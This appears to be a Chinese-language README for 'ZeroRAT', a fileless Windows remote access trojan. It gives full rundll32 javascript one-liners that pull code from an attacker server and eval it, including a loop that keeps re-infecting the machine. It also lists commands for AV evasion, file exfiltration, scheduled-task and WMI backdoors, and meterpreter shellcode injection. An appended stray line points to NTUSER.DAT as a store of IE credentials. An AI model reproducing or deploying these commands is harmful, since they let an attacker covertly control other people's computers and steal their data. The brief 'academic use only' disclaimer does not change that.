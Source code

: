 #ZeroRAT
##简介
适用于windows的远控，客户端只需要执行一条指令，利用windows原生的程序执行，不在磁盘写文件，具有天然免杀的特性。重启失效。

程序里的download和upload都是以客户端的视角。客户端从服务端下载文件叫做download，客户端上传文件到服务端叫做upload。

##配置
在config.py中修改客户端上线的地址和后台的管理密码，记得要检查下把debug关掉。

程序依赖flask和sqlite3，自行pip安装

##客户端
把`<ip>:<port>`替换成实际上线的地址

正常版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){window.close();}
```

不死版

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://<ip>:<port>/connect",false);while(1){try{h.Send();B=h.ResponseText;eval(B);}catch(e){}}
```

##服务端
后台： `http://<ip>:<port>/server/`

服务端支持的命令有

* `sessions`  列出活动的客户端
* `use <id>`  根据id选择客户端
* `set <key> <value>`    设置全局变量
* `show globals/downloads/uploads`  查看全局变量、客户端能下载的文件、客户端上传的文件
* `delete session`  删除当前客户端
* `delete download/upload <id>` 按照id删除文件
* `upfile`  上传文件到服务器，并添加到downloads列表
* `download`  设置好download_file和download_save_path两个变量即可让客户端下载文件并保存到download_save_path
* `upload`  设置upload_file变量，即可让客户端把upload_file的文件上传到服务器
* `backdoor tasks <time>`  利用windows任务计划留后门，时间格式为00：00
* `backdoor wmi`  利用wmi留后门，每一小时执行一次
* `meterpreter shellcode`  InstallUtil执行shellcode方式种meterpreter，需要先设置LHOST和LPORT(migrate之后才能继续接受命令，依赖.NET Framework 2.0)
* `meterpreter powershell`  Powershell方式种meterpreter(依赖powershell 1.0)

除了上述的命令，其他均会被当做windows的系统命令来执行

命令详情请见/static/js/xkcd_cli.js

##开发
后台命令维护客户端 /static/js/xkcd_cli.js

后台命令维护服务端 /controllers/server.py

客户端维护 /controllers/client.py

客户端payload生成 payload.py

数据库操作相关 /models/

##联系方式
http://5alt.me

md5_salt [AT] qq.com

##参考资料
https://gist.github.com/subTee/f1603fa5c15d5f8825c0

http://drops.wooyun.org/tips/11764

http://drops.wooyun.org/tips/8290

http://drops.wooyun.org/tips/12354

https://github.com/chromakode/xkcdfools

http://www.kammerl.de/ascii/AsciiSignature.php

##免责声明
使用本工具请遵守当地法律，仅能用作学术测试使用，严禁非法控制他人计算机。如果造成损害，与作者无关。

##License
GPLV3

##TODO
* 完善命令
* heartbeat随任务量来决定sleep时间
* 通信流量加密



你打开这个路径C:\Documents and Settings\用户名，在这个文件里面的NTUSER.DAT文件里面就保存了ie用户的用户名和密码
